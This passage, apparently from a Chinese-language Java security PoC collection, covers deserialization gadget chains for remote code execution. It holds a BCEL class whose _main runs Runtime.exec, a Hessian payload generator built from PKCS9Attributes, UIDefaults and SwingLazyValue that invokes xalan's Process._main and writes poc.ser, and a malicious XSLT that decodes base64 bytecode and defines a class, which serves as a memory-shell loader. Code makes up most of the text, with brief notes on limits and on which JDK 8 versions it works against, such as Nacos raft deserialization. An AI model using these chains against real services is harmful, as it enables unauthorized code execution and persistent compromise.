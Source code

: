 ```java
package com.javasec.pocs.rce;

import java.io.IOException;

public class BcelRCE {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("cmd");
    }
    public static void main(String[] args) {

    }
}

```

这里用到了`com.sun.org.apache.bcel.internal.util.JavaWrapper`这个类的`_main`静态方法，在方法内部可以加载BCEL字节码，会加载恶意类的`_main`方法。但是问题是，BCEL打内存马需要全反射的形式调用，Bcel类加载器不会加载springframework下的依赖，会抛出`ClassNotDefinded`的异常，它只能加载jdk包下的原生类，这一点就是一个限制，所以这里假如目标出网可以用这条gadgets，比较方便。

3、XSLT
------

在nacos的raft反序列化里出现过这条链子

```java
public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XT", "-XSL", "E:\\payload.xslt"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();

    }
}
```

该gadgets可在jdk8通杀，这是一条高可用的payload，用到了`com.sun.org.apache.xalan.internal.xslt.Process`的\_main方法去加载恶意的xslt文件，我们可以在xslt文件内部执行任意语句，并且不受限。

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"
                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils"
>
    <xsl:template match="/">
        <xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'base64')"/>
        <xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
        <xsl:variable name="rce" select="ru:defineClass('classname',$bs,$cl)"/>
        <xsl:value-of select="$rce"/>
    </xsl:template>
</xsl:stylesheet>

```
